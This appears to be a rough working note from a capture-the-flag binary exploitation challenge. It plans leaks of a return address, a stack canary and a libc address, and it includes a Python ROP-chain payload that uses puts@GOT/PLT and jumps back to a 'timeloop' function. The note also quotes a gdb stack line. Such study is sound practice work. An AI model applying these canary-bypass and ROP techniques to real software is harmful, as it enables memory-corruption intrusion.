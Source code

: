 

# how about

1st day leak return address 
2nd day leak canary + ROP chain to leak libc address 

nvm can't the chain wont return at that time 

wait, it does have to return at that time, the value would be there, and I return on last day anyways 


ohhhh wait
maybe i can write 

```py
    p64(base_addr + 0x000000000001403),
    p64(3),
    p64(timeloop_address)
```

to `b*24`, and then I return there


```py 
payload = flat(
    
    # padding + get the return addresses ready
    # to go back to same function to write more
    p64(base_addr + 0x000000000001403), # rsp-0x20 ?
    p64(3), 
    p64(timeloop_address),
    p64(canary),
    b'C' * 8, # padding to get to return address
    # leak libc function address
    p64(base_addr + 0x000000000001403),
    p64(elf.got['puts'] + base_addr),
    p64(elf.plt['puts'] + base_addr),
    p64(0x00000000000012d3 + base_addr) # rsp-0x20 ?


    # go back to same function to write more
    
)
```


# new idea 

```
__libc_start_main+243

x7fffe831fab8 —▸ 0x7f6851cbe083 (__libc_start_main+243) ◂— mov edi, eax
```
